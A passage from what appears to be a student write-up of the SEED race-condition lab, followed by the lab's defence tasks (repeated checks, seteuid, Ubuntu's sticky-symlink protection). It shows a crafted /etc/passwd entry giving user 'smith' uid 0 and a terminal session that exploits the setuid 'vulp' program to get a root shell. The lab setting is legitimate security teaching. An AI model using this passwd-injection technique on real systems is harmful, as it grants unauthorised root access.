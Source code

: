 Content in attack_input:

```sh
smith:ttXydORJt50wQ:0:0::/home:/bin/sh
```

Now, let's attack it.

```sh
seed@ubuntu:~$ ls -al vulp* attack* loop.sh 
-rwxrwxrwx 1 seed seed   39 Aug 11 23:39 attack_input
-rwxrwxrwx 1 seed seed  268 Aug 11 23:02 attack.sh
-rwxrwxrwx 1 seed seed  102 Aug 11 23:44 loop.sh
-rws------ 1 root root 7403 Aug 11 23:22 vulp
-rwxrw-rw- 1 seed seed  301 Aug 11 23:42 vulp.c
seed@ubuntu:~$ ./loop.sh ; ./attack.sh
Stop... The passwd has been changed!
seed@ubuntu:~$ cat /etc/passwd | grep smith
smith:ttXydORJt50wQ:0:0::/home:/bin/sh
seed@ubuntu:~$ su smith 
Password: 
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Task 2: Protection Mechanism A: Repeating

Getting rid of race conditions is not easy, because the check-and-use pattern is often necessary in programs. Instead of removing race conditions, we can actually add more race conditions, such that to compromise the security of the program, attackers need to win all these race conditions. If these race conditions are designed properly, we can exponentially reduce the winning probability for attackers. The basic idea is to repeat `access()` and `open()` for several times; at each time, we open the file, and at the end, we check whether the same file is opened by checking their `i-nodes` (they should be the same).

Please use this strategy to modigy the vulnerable program, and repeat your attack. Report how difficult it is to succeed, if you can still succeed.

### Task 3: Protection Mechanism B: Principle of Least Privilege

The fundamental problem of the vulnerable program in this lab is the violation of the
Principle of Least Privilege. The programmer does understand that the user who runs the program might be too powerful, so he/she introduced `access()` to limit the user's power. However, this is not the proper approach. A better approach is to apply the Principle of Least Privilege; namely,  if users do not need certain privilege, the privilege needs to be disabled.

We can use `seteuid` system call to temporarily disable the root privilege, and later enable it if necessary. Please use this approach to fix the vulnerability in the program, and then repeat your attack. Will you be able to succeed?

### Task 4: Protection Mechanism C: Ubuntu's Built-in Scheme

As we mentioned in the initial setup, Ubuntu 11.04 and 12.04 comes with a built-in protection scheme against race condition attacks. In this task, you need to turn the protection back on using the following command:

```sh
sudo sysctl -w kernel.yama.protected_sticky_symlinks=1
```

Please explain the followings:

- Why does this protection scheme works?
- Is this a good protection? Why or why not?
- What are the limitations of this scheme?
